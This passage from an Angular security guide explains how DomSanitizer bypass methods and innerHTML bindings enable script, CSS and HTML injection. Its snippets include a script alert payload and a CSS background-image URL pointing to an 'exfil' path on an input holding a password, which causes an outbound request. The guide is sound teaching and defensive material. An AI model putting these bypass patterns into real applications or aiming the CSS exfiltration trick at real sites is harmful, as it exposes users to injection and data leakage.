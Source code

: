 ```jsx
//app.component.ts
this.trustedScript = this.sanitizer.bypassSecurityTrustScript("alert('bypass Security TrustScript')");

//app.component.html
<script [innerHtml]="trustedScript"></script>

//result
-
```
5.  `bypassSecurityTrustStyle` is used to indicate the given value is safe CSS. The following example illustrates CSS injection:

```jsx
//app.component.ts
this.trustedStyle = this.sanitizer.bypassSecurityTrustStyle('background-image: url(https://example.com/exfil/a)');

//app.component.html
<input type="password" name="pwd" value="01234" [style]="trustedStyle">

//result
Request URL: GET example.com/exfil/a
```

Angular provides a `sanitize` method to sanitize data before displaying it in views. This method employs the security context provided and cleanses the input accordingly. It is, however, crucial to use the correct security context for the specific data and context. For instance, applying a sanitizer with `SecurityContext.URL` on HTML content does not provide protection against dangerous HTML values. In such scenarios, misuse of security context could lead to XSS vulnerabilities.

### HTML injection

This vulnerability occurs when user input is bound to any of the three properties: `innerHTML`, `outerHTML`, or `iframe` `srcdoc`. While binding to these attributes interprets HTML as it is, the input is sanitized using `SecurityContext.HTML`. Thus, HTML injection is possible, but cross-site scripting (XSS) is not.

Example of using `innerHTML`:
```jsx
//app.component.ts
import { Component} from '@angular/core';

@Component({
selector: 'app-root',
templateUrl: './app.component.html'
})
export class AppComponent{
//define a variable with user input
test = "<script>alert(1)</script><h1>test</h1>";
}

//app.component.html
<div [innerHTML]="test"></div>
```
The result is `<div><h1>test</h1></div>`.
